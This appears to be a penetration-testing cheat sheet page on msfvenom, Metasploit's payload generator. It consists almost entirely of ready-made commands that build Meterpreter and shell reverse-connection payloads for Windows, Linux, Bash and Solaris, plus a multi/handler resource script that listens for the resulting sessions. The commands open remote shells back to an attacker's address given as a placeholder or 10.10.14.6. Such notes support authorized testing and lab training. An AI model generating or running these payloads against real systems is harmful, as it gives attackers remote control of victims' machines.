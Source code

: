 ```yaml
---
description: >-
  MsfVenom is a Metasploit standalone payload generator as a replacement for
  msfpayload and msfencode.
---
```


# msfvenom

**Example:** 

`msfvenom -p windows/meterpreter/reverse_tcp LHOST={IP} LPORT={Port} -f exe -o shell.exe` 

**Handler**: 

```text
Use exploit/multi/handler  
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST  
set LPORT  
set ExitOnSession false  
exploit -j -z 
```

\*copy into a file with .rc extenation and run as: 

`msfconsole -r example.rc` 

   
**Common payloads:** 

**Linux**: 

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf` 

**Windows**: 

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe` 

**Bash**: 

`msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh` 

**Solaris**: 

`msfvenom -p solaris/x86/shell_reverse_tcp lhost=10.10.14.6 lport=5555 -f elf > /root/Desktop/raj.elf` 

